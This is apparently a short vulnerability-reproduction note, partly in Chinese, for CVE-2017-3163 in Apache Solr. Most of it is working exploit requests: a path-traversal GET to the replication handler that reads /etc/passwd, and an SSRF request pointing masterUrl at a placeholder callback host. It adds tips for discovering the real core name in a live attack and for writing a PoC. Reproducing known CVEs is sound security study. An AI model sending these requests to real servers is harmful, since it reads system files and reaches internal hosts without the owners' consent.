


CVE-2017-3163复现
--

Target Solr version: <5.5.4 and <6.4.1 Requirements: none

`GET /solr/db/replication?command=filecontent&file=../../../../../../../../../../../../../etc/passwd&wt=filestream&generation=1`

There is also an unfixed SSRF here, but with the existence of "shards" feature it's hardly considered as a vulnerability:

`GET /solr/db/replication?command=fetchindex&masterUrl=http://callback/xxxx&wt=json&httpBasicAuthUser=aaa&httpBasicAuthPassword=bbb`

此处我只复现一下文件读取吧

这里需要注意上面链接的db是core的名字，这个需要根据真实的攻击场景自行更改，我们在真实环境中可以利用

`/solr/admin/cores?wt=json`获取

写poc的时候也需要注意这一点

